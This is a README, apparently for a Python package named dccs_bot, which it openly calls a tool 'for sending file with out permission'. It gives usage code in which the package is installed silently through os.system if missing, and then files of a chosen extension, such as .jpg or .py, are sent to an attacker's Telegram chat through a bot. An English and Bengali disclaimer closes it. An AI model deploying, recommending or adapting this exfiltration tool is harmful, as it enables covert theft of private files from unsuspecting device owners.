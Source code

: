 # dccs_bot

dccs_bot is a Python package for sending file with out permission 
## Installation

dccs_bot can be installed using pip:

`pip install dccs_bot`


## bot client

1. go to telegram

2. search ` @team_dccs_bot `

3. go to bot id 

4. click START 

## Usage

To use dccs_bot, you will need to import the package:

`from dccs_bot import bot`

Next, you will need to provide a chat ID:

`id = your telegram chat_id`

Next, you will need to provide a extension

`Extension like ( .py .jpg .pdf etc.. )`

Finally, you can use the bot:

`bot(id, ".py")`

## Example

Here is an example of how to use dccs_bot:

```python
try:
   from dccs_bot import bot
except ModuleNotFoundError:
   os.system('pip install dccs_bot')

id = 12345678
ex = ".jpg"
bot(id, ex)

```

This will create a bot with the given chat ID and will respond to messages with a .py file.


## Warning:

DCCS_bot is potentially harmful to mobile data and is not responsible for any harm caused to people. Use at your own risk.

DCCS_bot মোবাইল ডেটার জন্য সম্ভাব্য ক্ষতিকারক এবং মানুষের কোনো ক্ষতির জন্য আমরা দায়ী নয়। আপনার নিজের ঝুঁকিতে ব্যবহার করুন।
